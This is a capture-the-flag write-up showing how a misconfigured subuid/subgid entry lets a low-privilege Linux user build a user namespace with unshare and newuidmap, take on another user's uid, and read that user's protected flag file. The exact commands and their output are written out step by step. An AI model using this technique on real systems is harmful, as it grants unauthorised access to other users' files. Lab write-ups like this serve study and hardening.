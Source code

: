 # subuser write-up

## connect through ssh with simpleuser account

## identify there are two interesting users on the machine.

```
$ cat /etc/passwd | tail -2
simpleuser:x:1000:1000::/home/simpleuser:/bin/bash
flaguser:x:1001:1001::/home/flaguser:/bin/bash
```

One user is called `flaguser`. Its uid and gid are 1001/1001.

## notice vulnerable subuid and subgid configuration

```
[simpleuser@6304f11c4fca ~]$ cat /etc/subuid
simpleuser:524288:65536
flaguser:589824:65536
simpleuser:1001:1
[simpleuser@6304f11c4fca ~]$ cat /etc/subgid
simpleuser:524288:65536
flaguser:589824:65536
simpleuser:1001:1
```

Lines `simpleuser:1001:1` mean that simpleuser can create a new user namespace, and map uid/gid inside the user namespace to uid/gid 1001 outside the namespace, corresponding to flaguser uid/gid.

## use unshare to create a new user namespace and display PID

```
[simpleuser@6304f11c4fca ~]$ PS1='€ ' unshare -U bash
€ echo $$
46
€ 
```

## open another session through ssh with simpleuser account, and change uid and gid mapping allowed by vulnerable subuid and subgid mapping

```
[simpleuser@6304f11c4fca ~]$ newuidmap 
usage: newuidmap [<pid>|fd:<pidfd>] <uid> <loweruid> <count> [ <uid> <loweruid> <count> ] ... 
[simpleuser@6304f11c4fca ~]$ newuidmap 46 0 1000 1 1 1001 1
[simpleuser@6304f11c4fca ~]$ newgidmap 46 0 1000 1 1 1001 1
```

These commands will map, for user namespace of PID 46, uid/gid 0 inside the namespace to 1000 outside, and uid/gid 1 inside the namespace to 1001 outside.

## on previous session, search and display flag

```
€ ls -al /home/
total 0
drwxr-xr-x. 1 nobody nobody 16 Sep 16 12:03 .
dr-xr-xr-x. 1 nobody nobody 12 Sep 16 12:03 ..
drwx------. 1 bin    bin    18 Sep 16 12:03 flaguser
drwx------. 1 root   root   64 Sep 16 12:03 simpleuser
€ ls -al /home/flaguser/
total 16
drwx------. 1 bin    bin     18 Sep 16 12:03 .
drwxr-xr-x. 1 nobody nobody  16 Sep 16 12:03 ..
-rw-r--r--. 1 bin    bin     18 Feb  6  2023 .bash_logout
-rw-r--r--. 1 bin    bin    141 Feb  6  2023 .bash_profile
-rw-r--r--. 1 bin    bin    492 Feb  6  2023 .bashrc
-r--------. 1 bin    bin     33 Sep 16 11:57 .flag.txt
€ cat /home/flaguser/.flag.txt
Congrats, here is the flag: FLAG
€ 
```

Notice that the user/group simpleuser (uid/gid 1000) and flaguser (uid/gid 1001) appears as root (uid/gid 0) and bin (uid/gid 1) when inside the user namespace.

# sources

- https://man7.org/linux/man-pages/man7/user_namespaces.7.html
- https://blog.quarkslab.com/digging-into-linux-namespaces-part-2.html
- https://www.redhat.com/sysadmin/podman-inside-container
- https://github.com/containers/podman/blob/main/contrib/podmanimage/stable/Containerfile
- https://github.com/containers/podman/blob/main/docs/tutorials/rootless_tutorial.md#etcsubuid-and-etcsubgid-configuration
